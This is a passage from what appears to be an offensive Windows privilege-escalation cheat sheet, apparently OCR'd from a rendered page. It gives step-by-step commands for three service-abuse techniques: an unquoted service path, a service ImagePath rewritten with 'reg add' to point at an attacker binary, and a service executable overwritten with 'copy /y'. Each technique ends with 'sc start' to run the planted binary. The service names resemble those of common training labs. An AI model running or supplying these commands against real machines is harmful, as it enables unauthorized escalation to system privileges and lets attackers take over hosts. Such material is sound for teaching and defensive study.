 common.exe

2\.

Place common.exe in 'C:\\Program Files\\Unquoted Path Service'.

3\.

sc start unquotedsvc

<a name="abusing-services-via-registry"></a>
# Abusing Services via Registry

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

reg add HKLM\\SYSTEM\\CurrentControlSet\\services\\regsvc /v ImagePath
/t

REG_EXPAND_SZ /d c:\\temp\\x.exe /f

2\.

sc start regsvc

<a name="abusing-services-via-executable-file"></a>
# Abusing Services via Executable File

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

copy /y c:\\Temp\\x.exe \"c:\\Program Files\\File Permissions
Service\\filepermservice.exe\"

2\.

sc start filepermsvc

<a name="abusing-services-via-autorun"></a>
# Abusing Services via Autorun
